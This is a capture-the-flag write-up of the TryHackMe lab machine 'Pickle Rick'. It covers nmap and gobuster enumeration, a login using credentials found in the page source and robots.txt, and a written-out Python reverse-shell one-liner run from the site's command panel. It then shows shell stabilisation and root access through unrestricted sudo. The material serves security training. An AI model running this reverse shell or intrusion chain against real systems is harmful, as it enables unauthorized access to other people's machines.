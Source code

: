 ```yaml
---
title: "TryHackMe - Pickle Rick"
author: Nasrallah
description: "Writeup of easy machine Pickle Rick"
date: 2021-12-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, web, reverse-shell, python, gobuster]
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg
  width: 268
  height: 268
  alt: picklerick
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

Hello l33ts, I hope you are doing well. Today we are going to look at [Pickle Rick](https://tryhackme.com/room/picklerick) from TryHackMe.

# **Description**
This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

# **Enumeration**
As usual, let's start our nmap scan using this commad : `sudo nmap -sV -sC {target_IP} -oN nmap.scan`

-sV - find the version of all the service running on the target

-sC - run all the default scripts

-oN - save the output in a file called nmap

## nmap
```terminal
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-24 10:06 EST
Nmap scan report for 10.10.237.232
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 85:92:6a:04:0e:1c:53:94:c6:8b:84:5f:c3:a3:fc:41 (RSA)
|   256 c1:9b:c3:79:38:ee:e2:ed:fc:85:57:4f:ae:ef:2a:12 (ECDSA)
|_  256 81:d8:73:fe:2d:c0:ce:79:43:bc:56:e7:c9:64:aa:58 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.00 seconds
```
We see that there is 2 open ports:
- 22(SSH)
- 80(HTTP)

Let's check the web server. Oh no, it seems that Rick is in a problem, anyway, let's check the page source code.
![Sourcecode](/assets/img/tryhackme/pickle/source.png)
Nice, we have found a username,Let's now run Gobuster directory scan using the following command: `gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u {target_IP} -x php,txt`

- -x: is to tell gobuster to search for extensions(php, txt)

## Gobuster
```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.237.232
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/12/24 10:19:06 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.hta.txt             (Status: 403) [Size: 296]
/.hta.php             (Status: 403) [Size: 296]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/assets               (Status: 301) [Size: 315] [--> http://10.10.237.232/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                    
/index.html           (Status: 200) [Size: 1062]                                  
/login.php            (Status: 200) [Size: 882]                                   
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]                                    
/robots.txt           (Status: 200) [Size: 17]                                    
/server-status        (Status: 403) [Size: 301]                                   

===============================================================
```
Gobuster has found some good stuff, we have a login page and robots.txt file, let's check the latter.

That's a weird string we have found, let's save it and go check to login page.
We have the username and the weird string we found in robots.txt, let's supply them and see what happens.

Great, we are in, and it seems we have a command panel where we can execute code on the target, let's try to get a reverse shell with that.

# **Foothold**
 After checking that python3 is installed on the target machine with `which python3` command, i executed the following command to get a reverse shell on my machine after setting up a listener of cource: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
 > You need to change the ip address in the command!

```terminal
$ nc -lnvp 9001                                                                                                                                      130 ⨯
listening on [any] 9001 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.237.232] 58428
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-237-232:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-237-232:/var/www/html$ ^Z #pressed ctrl+z
zsh: suspended  nc -lnvp 9001

$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001 #pressed enter

www-data@ip-10-10-237-232:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt    index.html  portal.php
assets                       denied.php  login.php   robots.txt
www-data@ip-10-10-237-232:/var/www/html$
```

The commands i executed are for getting a stable shell.
# **Privilege Escalation**
When we run `sudo -l ` we see that we can run whatever we want!
```terminal
www-data@ip-10-10-237-232:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-237-232.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-237-232.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-237-232:/home/rick$
```
This made our task much easier. With that, we can upgrade directly to root.
```terminal
www-data@ip-10-10-237-232:/home/rick$ sudo su
root@ip-10-10-237-232:/home/rick# whoami
root
root@ip-10-10-237-232:/home/rick#
```

And just like that we have rooted Pickle Rick machine, hope you guys enjoyed it. See you in the next Hack.
